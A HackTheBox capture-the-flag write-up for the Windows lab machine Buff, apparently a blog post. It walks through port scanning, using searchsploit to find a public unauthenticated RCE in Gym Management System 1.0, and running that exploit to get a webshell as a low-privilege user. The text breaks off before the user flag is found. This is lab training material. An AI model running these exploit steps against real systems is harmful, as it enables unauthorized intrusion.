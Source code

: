 Buff is a Windows box found on HackTheBox. If you are working on the box and looking for some hints, I will tell you that this box is mainly focused on known CVEs. There is nothing you need to write by hand, just make sure you are enumerating and checking everything for existing exploits. With that said, lets get into the step-by-step of how to pwn it!

## Network Enumeration

As always, the first step is to see what ports are accessible

    nmap -sV -Pn -n 10.10.10.198 -p-
    PORT     STATE SERVICE    VERSION
    7680/tcp open  pando-pub?
    8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)

## Exploring the Website

I used gobuster and dirb to enumerate the site, and while they were running looked at the available pages. After poking around, we find the websites CMS:

![htb_buff_gymhut](https://github.com/guffre.github.io/assets/images/htb_buff_gymhut.png)

A CMS is always worth a check in searchsploit, or a google search for vulnerabilities:

    root@kali:~# searchsploit gym
    ----------------------------------------------------------------- ---------------------------------
     Exploit Title                                                   |  Path
    ----------------------------------------------------------------- ---------------------------------
    Gym Management System 1.0 - Unauthenticated Remote Code Executio | php/webapps/48506.py
    WordPress Plugin WPGYM - SQL Injection                           | php/webapps/42801.txt

## Exploiting for User Creds

Well an RCE sounds excellent. I had to install colorama (`pip2 install colorama`) to get it to execute, but otherwise it worked out-of-the-box with no tweaking:


    root@kali:/htb/198_Buff# python2 /usr/share/exploitdb/exploits/php/webapps/48506.py http://10.10.10.198:8080/
                /\
    /vvvvvvvvvvvv \--------------------------------------,                                                                                                                                                     
    `^^^^^^^^^^^^ /============BOKU====================="
                \/

    [+] Successfully connected to webshell.
    C:\xampp\htdocs\gym\upload> whoami
    �PNG
    ▒
    buff\shaun

## Finding the User Flag

Before manual inspection, I like to try some more "automated" searches. After searching through a few directories, the flag can be located using this search:
